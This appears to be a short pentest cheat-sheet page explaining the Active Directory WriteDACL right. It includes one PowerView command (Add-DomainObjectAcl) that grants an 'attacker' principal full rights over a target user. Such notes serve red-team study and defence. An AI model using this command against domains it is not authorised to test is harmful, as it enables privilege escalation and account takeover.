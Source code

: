 # WriteDACL

The **WriteDACL** permission allows a user to modify the Discretionary Access Control List (DACL) of an object. The DACL defines who has what permissions over that object. By modifying the DACL, a user can grant themselves or others additional rights over the object.

User PowerView.ps1 to modify DACL

{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "CN=targetuser,CN=Users,DC=example,DC=com" -PrincipalIdentity "CN=attacker,CN=Users,DC=example,DC=com" -Rights All
```
{% endcode %}

